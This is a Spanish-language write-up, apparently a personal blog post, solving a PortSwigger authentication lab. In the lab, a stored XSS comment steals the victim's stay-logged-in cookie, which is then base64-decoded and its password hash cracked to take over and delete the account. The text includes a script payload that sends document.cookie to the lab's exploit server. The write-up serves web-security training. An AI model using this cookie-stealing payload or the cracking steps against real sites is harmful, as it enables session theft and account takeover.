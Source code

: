 ```yaml
---
title: Offline password cracking
description: Laboratorio de Portswigger sobre Authentication
date: 2025-01-29 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - Authentication
tags:
  - Portswigger Labs
  - Authentication
  - Offline password cracking
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP

## Descripción

Este `laboratorio` almacena el `hash de la contraseña` del usuario en una `cookie`. Además, contiene una `vulnerabilidad de XSS` en la `funcionalidad de comentarios`. Para `resolver` el `laboratorio`, debemos `obtener la cookie stay-logged-in` de `Carlos` mediante `XSS`, `crackear su hash de contraseña` y luego `iniciar sesión` como `carlos`. Finalmente, debemos `eliminar su cuenta` desde la página `Mi cuenta`. Podemos usar nuestras credenciales `wiener:peter` para iniciar sesión, el `nombre de usuario` de la `víctima` es `carlos` y podemos usar el diccionario `Candidate passwords` [https://portswigger.net/web-security/authentication/auth-lab-passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) para `crackear` la `contraseña`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Authentication-Lab-10/image_1.png)

Pulsamos sobre `My account`, nos `logueamos` usando las credenciales `wiener:peter` y marcamos la casilla de `Stay logged in`

![](/assets/img/Authentication-Lab-10/image_2.png)

Pulsamos en `View post` y vemos que hay una `sección` de `comentarios`

![](/assets/img/Authentication-Lab-10/image_3.png)

Vemos que hemos podido `inyectar código HTML`

![](/assets/img/Authentication-Lab-10/image_4.png)

Si vemos el `código fuente` nos damos cuenta que el código insertado en la `sección` de `comentarios` no se está `HTML encodeando` 

![](/assets/img/Authentication-Lab-10/image_5.png)

Nos dirigimos al `Exploit server` y copiamos la url `https://exploit-0a6800e703d4999e8022985501aa002c.exploit-server.net/exploit`, posteriormente vamos a publicar un comentario para `explotar` un `stored XSS` y así `obtener` la `cookie` del `usuario víctima`

```
<script>document.location='https://exploit-0a6800e703d4999e8022985501aa002c.exploit-server.net/exploit/'+document.cookie</script>
```

![](/assets/img/Authentication-Lab-10/image_6.png)

Una vez publicado nos dirigimos al `Exploit server` y abrimos el apartado de `logs` y vemos este `log`

![](/assets/img/Authentication-Lab-10/image_7.png)

Si `decodeamos` este `parámetro` de la cookie `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz` obtener el `nombre` de `usuario` y la `contraseña` del usuario `hasheada`

```
# echo 'Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz' | base64 -d  
carlos:26323c16d5f4dabff3bb136f2460a943 
```

Además de `crackear` la `contraseña` con `john` o `hashcat` podemos usar `rainbow tables` para `obtener` la `contraseña`, existen varias web que podemos usar como [https://crackstation.net/](https://crackstation.net/)

![](/assets/img/Authentication-Lab-10/image_8.png)

También podríamos `pegar` el `hash` en el `navegador` y `obtener` el `contenido` del `hash` de esta forma

![](/assets/img/Authentication-Lab-10/image_9.png)

Una vez tenemos el `usuario` y la `contraseña` ya podemos acceder `iniciar sesión` con las credenciales `carlos:onceuponatime` y `borrar` al `usuario carlos`

![](/assets/img/Authentication-Lab-10/image_10.png)

![](/assets/img/Authentication-Lab-10/image_11.png)

![](/assets/img/Authentication-Lab-10/image_12.png)
